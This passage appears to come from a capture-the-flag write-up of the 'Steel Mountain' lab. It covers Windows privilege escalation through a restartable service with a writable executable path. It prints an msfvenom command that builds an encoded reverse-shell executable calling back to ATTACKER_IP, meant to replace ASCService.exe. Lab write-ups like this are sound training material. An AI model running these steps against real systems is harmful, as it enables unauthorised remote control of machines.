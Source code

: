 Once in Powershell, we can run the PowerUp script with `. .\PowerUp.ps1`, followed by typing in the command `Invoke-AllChecks`:

![screenshot14](../assets/images/steel_mountain/screenshot33.png)

From the results, we find a service that has its **CanRestart** option set to 'True':

![screenshot15](../assets/images/steel_mountain/screenshot15.png)

Hence, the name of the service is: **AdvancedSystemCareService9**

Also, from the 'Path', we see that the executable file that is responsible for running this service is called **ASCService.exe**.

---

### The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

### [ Use msfvenom to generate a reverse shell as an Windows executable. ]

Alright, let's open a reverse shell on the target machine. 

To do so, we first use `msfvenom` to generate a Windows reverse shell payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4443 -e x86/shikata_ga_nai -f exe -o ASCService.exe
```

![screenshot16](../assets/images/steel_mountain/screenshot16.png)
